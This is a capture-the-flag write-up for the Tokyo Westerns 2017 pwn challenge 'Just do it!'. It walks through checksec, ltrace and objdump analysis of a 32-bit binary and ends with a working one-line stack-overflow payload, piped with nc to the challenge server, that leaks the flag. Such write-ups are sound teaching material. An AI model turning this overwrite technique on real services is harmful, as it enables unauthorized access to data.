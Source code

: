 ```yaml
---
layout: post
title: "[Write-Up] Tokyo Westerns CTF 3rd 2017 - Just do it!"
categories: [write-up]
tags: [write-up, pwn]
description: Write-UP of the Pwn challenge "Just do it!" of the Tokyo westerns CTF.
---
```


# Just do it! (Pwnable)

This challenge was not very hard. I started by retrieving informations of the binary.
```bash
$ mv just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa just_do_it

$ ls -lh just_do_it 
-rwxr-xr-x 1 quentin quentin 7,7K sept.  4 10:04 just_do_it

$ file just_do_it 
just_do_it: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped

$ ./checksec.sh/checksec --file just_do_it 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	just_do_it
```

From the protection field, only the NX bit is enable, not stripped, dynamically linked and the size is 7,7K.
I then did some tests to see how the binary works. But at the first try I get an error "file open error. : No such file or directory". After a check with ltrace, the binary try to open a file "flag.txt" and exit if it can't.
```bash
$ echo toto>flag.txt

$ ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
toto
Invalid Password, Try Again!

$ ltrace ./just_do_it 
__libc_start_main(0x80485bb, 1, 0xffbfb964, 0x8048710 <unfinished ...>
setvbuf(0xf76ee5a0, 0, 2, 0)                                                                = 0
setvbuf(0xf76eed60, 0, 2, 0)                                                                = 0
setvbuf(0xf76eecc0, 0, 2, 0)                                                                = 0
fopen("flag.txt", "r")                                                                      = 0x9524008
fgets("toto\n", 48, 0x9524008)                                                              = 0x804a080
puts("Welcome my secret service. Do yo"...Welcome my secret service. Do you know the password?
)                                                 = 53
puts("Input the password."Input the password.
)                                                                 = 20
fgets(toto
"toto\n", 32, 0xf76ee5a0)                                                             = 0xffbfb898
strcmp("toto\n", "P@SSW0RD")                                                                = 1
puts("Invalid Password, Try Again!"Invalid Password, Try Again!
)                                                        = 29
+++ exited (status 0) +++

$ ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
P@SSW0RD
Invalid Password, Try Again!
```

After some test, the binary ask for a password. I found it (P@SSW0RD) thanks to ltrace but this is not enough to pass this step.

I then check the assembly code and I realized that it did not interest to pass the password request because it only change the output of the program.
```nasm
$ objdump -d -M intel just_do_it
...
 80486e7:	75 08                	jne    80486f1 <main+0x136>
 80486e9:	a1 34 a0 04 08       	mov    eax,ds:0x804a034
 80486ee:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80486f1:	83 ec 0c             	sub    esp,0xc
 80486f4:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 80486f7:	e8 64 fd ff ff       	call   8048460 <puts@plt>
...
```

So I test an easy overflow on the password input.

```bash
$ python -c 'print "A"*20'|./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
Segmentation fault (core dumped)
```

A segfault with only 20 bytes? While the "fgets" function can read 32 bytes? (cf: ltrace on top) After some check with GDB, I found that the segfault occurs when the "put" function is executed because the overflow overwrite the address of the strings "Invalid Password, Try Again!" in the stack. So we can print every strings present in the binary thanks to that bug. After some others GDB test, I found a padding of 20 bytes before rewrite the address of the strings.

The first step done by the binary is:

\- Open the file "flag.txt"

\- Read it content and store it at an address of the data segment.

```nasm
$ objdump -d -M intel just_do_it
...
 8048648:	83 ec 04             	sub    esp,0x4
 804864b:	ff 75 f0             	push   DWORD PTR [ebp-0x10]
 804864e:	6a 30                	push   0x30
 8048650:	68 80 a0 04 08       	push   0x804a080
 8048655:	e8 e6 fd ff ff       	call   8048440 <fgets@plt>
```

At the address "0x08048650" we can see the instructions "push   0x804a080" which represent the buffer address of the file content pushed on the stack. So we will use it to display the content of the file "flag.txt".
```bash
$ python -c 'print "A"*20+"\x80\xa0\x04\x08"'|nc pwn1.chal.ctf.westerns.tokyo 12345
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}
```

Done.
